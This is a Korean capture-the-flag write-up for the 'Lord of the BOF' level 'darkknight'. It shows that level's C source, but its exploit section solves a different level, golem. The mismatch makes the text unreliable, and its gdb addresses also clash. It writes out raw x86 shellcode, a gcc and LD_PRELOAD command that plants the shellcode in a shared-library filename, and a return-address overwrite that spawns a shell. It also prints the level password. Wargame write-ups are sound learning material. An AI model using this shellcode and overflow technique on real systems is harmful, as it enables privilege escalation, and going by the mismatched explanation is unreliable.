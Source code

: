 ============================================================================================================
[lob] darkknight
============================================================================================================

source code
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
    */

    #include <stdio.h>
    #include <stdlib.h>

    void problem_child(char *src)
    {
        char buffer[40];
        strncpy(buffer, src, 41);
        printf("%s\n", buffer);
    }

    main(int argc, char *argv[])
    {
        if(argc<2){
            printf("argv error\n");
            exit(0);
        }
        problem_child(argv[1]);
    }


Buffer Overflow
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- strcpy
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|


exploit
============================================================================================================

쉘코드 파일명을 공유 라이브러리로 등록
--------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 \x2f 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않습니다.

\x2f가 없는 쉘코드로 파일명을 생성하도록 합니다.

공유 라이브러리 영역에 쉘코드로 파일명을 등록합니다.

.. code-block:: console
    
    $ gcc -fPIC -shared -o `python -c 'print "\x90"*40 + "\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'` golem.c

    $ export LD_PRELOAD=./`python -c 'print "\x90"*40 + "\x31\xc0\x50\xba\x11\x11\x11\x11\x81\xc2\x1e\x1e\x62\x57\x52\xba\x11\x11\x11\x11\x81\xc2\x1e\x51\x58\x5d\x52\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`

gdb를 통해 공유 라이브러리에 올라간 쉘코드 주소를 확인합니다.

.. code-block:: console

    (gdb) b* main
    Breakpoint 1 at 0x8048500
    (gdb) r
    Starting program: /home/skeleton/golem2
    /bin/bash: /home/troll/.bashrc: Permission denied

    Breakpoint 1, 0x8048470 in main ()
    (gdb) x/100x $esp-3000

    ===========     =============== =============== =============== ==========
    0xbfffeef4:     0x000005f0      0x0000004d      0x0000028d      0x00000319
    0xbfffef04:     0x000005a7      0x00000514      0x0000020c      0x00000659
    0xbfffef14:     0x000002a4      0x0000003f      0x00000311      0x000001fe
    0xbfffef24:     0x00000000      0x0000050f      0x00000446      0x00000000
    0xbfffef34:     0x00000500      0x0000054e      0x000006d6      0x0000068b
    0xbfffef44:     0x00000000      0x0000037d      0x00000000      0x0000038c
    0xbfffef54:     0x00000000      0x000000cb      0x0000059b      0x00000707
    0xbfffef64:     0x00000557      0x00000000      0x00000564      0x00000000
    0xbfffef74:     0x00000301      0x0000048e      0x00000550      0x00000000
    0xbfffef84:     0x0000067f      0x00000000      0x00000000      0x00000715
    0xbfffef94:     0x000005e9      0x0000060d      0x00000529      0x000003a4

    (중략)
    0xbffff604:     0xbffff64c      0x00000002      0x40023fd0      0x40013c00
    0xbffff614:     0x4000ba15      0x40013868      0x40000814      0x400041b0
    0xbffff624:     0x00000001      0xbffff634      0x40001528      0x000002c8
    0xbffff634:     0x00000000      0x080482d0      0x00000000      0x00000001
    0xbffff644:     0x40000824      0xbffff654      0x400075bb      0x40017000
    0xbffff654:     0x00002fb2      0x40013868      0xbffff7e4      0x4000380e
    0xbffff664:     0x40014428      0x90902f2e      0x90909090      0x90909090
                                        ^
    0xbffff674:     0x90909090      0x90909090      0x90909090      0x90909090
    0xbffff684:     0x90909090      0x90909090      0x90909090      0xc0319090
                                                                        ^
    0xbffff694:     0x1111ba50      0xc2811111      0x57621e1e      0x1111ba52
    0xbffff6a4:     0xc2811111      0x5d58511e      0x50e38952      0x31e18953
    ===========     =============== =============== =============== ==========

|

RET 주소를 공유 라이브러리 로드 주소로 변경하여 공격 진행
--------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*40
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- shared libc address
    argc    (4byte)  
    argv    (4byte)  
    ----------------
    HIGH    
    ================

|

공유 라이브러리 주소 : nop(40 byte) + shellcode (39 byte) 

argv[1] : nop(44 byte) + 공유 라이브러리 주소

.. code-block:: console

    $ ./golem `python -c 'print "\x90"*44+"\x82\xf6\xff\xbf"'`

    bash$ whoami

    golem
    bash$ my-pass
    euid = 511
    cup of coffee

